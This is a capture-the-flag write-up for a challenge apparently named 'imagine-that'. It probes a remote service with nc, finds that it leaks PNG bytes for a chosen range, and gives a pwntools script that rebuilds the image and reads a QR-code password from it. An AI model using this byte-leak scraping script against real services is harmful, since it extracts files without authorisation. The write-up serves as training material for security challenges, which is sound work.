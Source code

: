 # imagine-that

```bash
kali@kali:~/Desktop/imagine-that$ nc 34.107.72.222 31488
Enter starting point: a
a
Enter starting point: v
v
Traceback (most recent call last):
  File "server.py", line 9, in <module>
    if (int(end) - int(start) > 10):
ValueError: invalid literal for int() with base 10: 'v'
```
So start and end have to heve less that 10 diference.

```bash
kali@kali:~/Desktop/imagine-that$ nc 34.107.72.222 31488
Enter starting point: 1
1
Enter starting point: 10
10
�PNG
▒

Enter the password: 1
1
```
It looks like it leaks values from a PNG file, let's write something to get 'em.

It looks like it appends \x89 to the start of every sequence, but it is also in the magic bytes to PNG so we have to add it after.
I found on the Internet that socat transforms \n into \r\n

```python
#!/usr/bin/python3

from pwn import *
import sys

context.log_level = 'error'
context.log_console = sys.stderr # this is very important, otherwise the image would be corrupted

IP = '34.89.232.255'
port = 31488
def test():
    r = remote(IP, port)

    # enter starting point
    r.recvuntil('Enter starting point: ')
    data = bytes(str(3590), 'UTF-8')
    r.sendline(data)
    
    # enter starting point 2
    r.recvuntil("Enter starting point: ")
    data = bytes(str(3600), 'UTF-8')
    r.sendline(data)
    
    # get our number echoed back then the part from the file
    r.recvuntil('\x89', drop=True)
    data = r.recvuntil('\r\nEnter the password: ', drop=True)
    print(data)
def main():
    sys.stdout.buffer.write(b'\x89')
    for i in range(1, 3500):
        try:
            r = remote(IP, port)
        except:
            sleep(2)
            i = i-1
            continue
        

        # enter starting point
        r.recvuntil('Enter starting point: ')
        data = bytes(str(i), 'UTF-8')
        r.sendline(data)
        
        # enter starting point 2
        r.recvuntil("Enter starting point: ")
        data = bytes(str(i+1), 'UTF-8')
        r.sendline(data)
        
        # get our number echoed back then the part from the file
        r.recvuntil('\x89', drop=True)
        
        data = r.recvuntil('\r\nEnter the password: ', drop=True)
        if len(data) == 1:
            sys.stdout.buffer.write(data)
            sys.stdout.buffer.flush()
        else:
            sys.stdout.buffer.write(b'\n')
            sys.stdout.buffer.flush()
        r.close()


if __name__== "__main__":
    main()
```


```bash
kali@kali:~/Desktop/imagine-that$ zbarimg img.png 
QR-Code:asdsdgbrtvt4f5678k7v21ecxdzu7ib6453b3i76m65n4bvcx
scanned 1 barcode symbols from 1 images in 0.05 seconds
```
We get a password to put give to the server so that it gives us the flag.